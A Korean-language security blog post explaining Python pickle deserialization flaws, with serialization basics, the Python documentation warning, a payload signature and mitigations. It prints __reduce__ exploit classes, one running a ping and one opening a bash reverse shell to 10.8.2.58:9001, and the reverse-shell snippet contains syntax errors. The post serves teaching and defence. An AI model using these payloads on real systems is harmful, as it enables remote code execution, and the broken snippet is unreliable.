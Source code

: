 ```yaml
---
layout: single
title: Deserialize_Vulnability for Python_Pickle
categories: Web-vuln
tag: [python, Pickle, Deserialize, Deserialize Vulnability]
toc: true
author_profile: false
---
```


# Deserialize란?

> 역 직렬화로 써 직렬화된 데이터 즉 바이트 스트림을 역연산 하는 과정을 말한다.

## Serialization?

> 계층 구조의 데이터를 바이트 스트림으로 변환하는 작업을 뜻하며,  객체를 저장 및 전송의 편리함 및 다른 플렛폼에서 사용하거나, 객체의 상태를 저장하기 위해 자주 사용된다.

# 직렬화는 어떤 기능을 하는 앤드포인트에서 사용될까?
1. 서버와 클라이언트 간의 데이터 전송
- 서버에서 객체를 JSON형식으로 직렬화하여 클라이언트에게 보내고 클라이언트는 해당 JSON을 파싱하여 객체로 변환하며, 보통 REST API, GraphQL 등 다양한 웹 API 통신에서 사용된다.
2. 데이터베이스 저장 및 조회
- ORM 사용시, 객체를 데이터베이스 레코드로 직렬화되고, 역직렬화가 이루어진다.
3. 캐싱
- 서버 측에서 데이터를 캐싱할 때 객체를 직렬화하여 캐시 스토리지에 저장하고, 캐시에서 데이터를 가져올 때 역직렬화 하여 객체로 변환하게됨
4. 파일 저장 및 읽기
- JSON, XML, YAML형식의 설정 파일을 읽고 쓸 때 객체의 직렬화, 역직렬화가 이루어진다.

# Deserialize에서의 취약점은 왜 발생 하는가?
> 사용자가 악의적인 데이터를 공격 서버와 동일한 방식으로 직렬화 하여 바이트 스트림을 생성후 서버에 제출하게 되면, 서버측에서는 이를 역직렬화 과정에서 제대로 검증하지 않고, 트리거 되기 떄문이다. 이 때 운영체제 명령어를 삽입하여 RCE 까지 연계될 수 있다.

# Deserialize for pickle
> Python에서 많이 사용되는 직렬화 및 역직렬화 라이브러리, 모듈인 Pickle 에서 Deserialize과정에서 취약점이 발생한다.
Pickle 라이브러리에서 직렬화 및 역직렬화를 하기 위해 내장된 함수는
1. pickle.dumps
2. pickle.dump
3. pickle.loads
4. picklid.load

위와 같이 존재한다. 직렬화를 하게되면, 아래와 같은 바이트 스트림으로 생성되는것을
확인할 수 있다.

```python
import pickle,base64

def pickled():
    data={"data":"test", "date":"2023"}
    serialized = pickle.dumps(data)
    print(serialized)

if __name__ == "__main__":
    pickled()

------------
b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x04data\x94\x8c\x04test\x94\x8c\x04date\x94\x8c\x042023\x94u.'
```

하지만 일반적으로 data는 일부 문자가 인쇄 가능한 형식이 아니므로 base64로 인코딩 형식으로
변환하여 저장한다. 그 후 역직렬화를 통해 기존 데이터를 불러올 수도 있다.

```python
import pickle
import base64

def pickled():
    data={"data":"test", "date":"2023"}
    serialized = base64.b64encode(pickle.dumps(data))
    print(serialized)
    deserialized=pickle.loads(base64.b64decode(serialized))
    print(deserialized)

if __name__ == "__main__":
    pickled()
---------------------------------------------------------
b'gASVIQAAAAAAAAB9lCiMBGRhdGGUjAR0ZXN0lIwEZGF0ZZSMBDIwMjOUdS4='
{'data': 'test', 'date': '2023'}
```

# Vulnability for Pickle?
파이썬의 공식 문서의 pickle문서를 보면 아래와 같은 내용을 표시하고있다.<br>
<div class="notice">
  <h4><aside>
💡 **Warning** 
The `pickle` module **is not secure**. Only unpickle data you trust.<br>

**Warning**<br>

The `pickle` module **is not secure**. Only unpickle data you trust.<br>

It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Consider signing data with [`hmac`](https://docs.python.org/3/library/hmac.html#module-hmac) if you need to ensure that it has not been tampered with.<br>

Safer serialization formats such as [`json`](https://docs.python.org/3/library/json.html#module-json) may be more appropriate if you are processing <br>untrusted data. See [Comparison with json](https://docs.python.org/3/library/pickle.html#comparison-with-json).

</aside></h4>
</div>
> 경고 : Pickle 모듈이 안전하지 않습니다. 신뢰할 수 있는 데이터만 unpickle 하세요
> 역직렬화 중에 임의의 코드를 실행하는 악의적인 pickle데이터를 구성하는 것이 가능합니다. 신뢰할 수 없는 소스에서 왔거나, 변조되었을 수 있는 데이터를 절대로 unpickling 하지 마세요
그렇다. 즉 악의적인 사용자가 변조된 data를 직렬화 하여 서버로 보내면, 서버는 아무 검증 없이<br>
역직렬화 과정을 진행하는데 이 때 data에 임의의 시스템 명령어가 포함하고 있을경우 이를 실행시키고 실행 결과값을 반환한다.

# 공격 표면
요청 값에 대한 응답값을 확인해보면 직렬화 기능을 사용하는지에 대해 추측이 가능하다.
<br>
Python의 직렬화된 객체의 signature 는 gASV이다. Pickle를 통해 dumps 값을 유심히 봤다면 알 수 있듯 gASV로 시작한다. 이는 인코딩된 페이로드를 식별할 수 있는 방법이 될 수 있다.
<br>
16진수라면 c28004c29526000000000000이다.

## “__reduce__”
해당 “__reduce__” 메서드를 사용하여 공격자는 공격 코드를 제작한다.
해당 <u style="color=red; ">**메서드는 인수를 사용하지 않고, 문자열이나 가급적 튜플을 반환해야한다.**</u>
“__reduce__”메서드는 직렬화 된 계층 구조를 unpickling 할 때 객체를 재구성하는 것에 대해 tuple을 반환한다.

```python
import pickle, base64
from typing import Any

class exploit:
    def __reduce__(self):
        cmd = "ping -c 1 172.20.120.196"
        return (eval, (cmd,))
test={"name":exploit()}

if __name__ == '__main__':
    print(base64.b64encode(pickle.dumps(test)).decode('utf8'))
```

위 코드와 같이 eval,builtins.{함수}, exec, popen, os.system, subprosess.{함수} 와 같이 시스템
<br>
명령어를 포함하여 직렬화를 수행할 수 있다.

## Reverse Shell

ping 로 시스템 명령이 가능하며, 외부 서버와의 연결이 허용될 때
<br>
RCE로 이어질 수 있다.

```python
import base64. os, pickle


class exploit(object):
	def __reduce__(self):
		return (os.system, ("bash -c 'bash -i >& /dev/tcp/10.8.2.58/9001 0>&1'",))

def send_payload():
	payload = exploit()
	payload = base64.b64encode(pickle.dumps(payload)).b64decode('utf8')
	print(payload)

if __name__ == "__main__":
	send_payload()
```

# 대응방안
1. 사용자 입력값에 대한 데이터 유효성 검사 및 검증 
2. 화이트 리스트 기반의 입력값 검증 정책 적용
3. 권한이 낮은 환경에서 역직렬화된 코드를 격리 후 실행
4. pickle data가 저장되는 경우 파일 시스템 권한을 검토 후 데이터에 대한 액세스 보호 확인
5. pickle 과정에서 암호화 서명 사용

# Reference
- https://macrosec.tech/index.php/2021/06/29/exploiting-insecuredeserialization-bugs-found-in-the-wild-python-pickles/
- https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/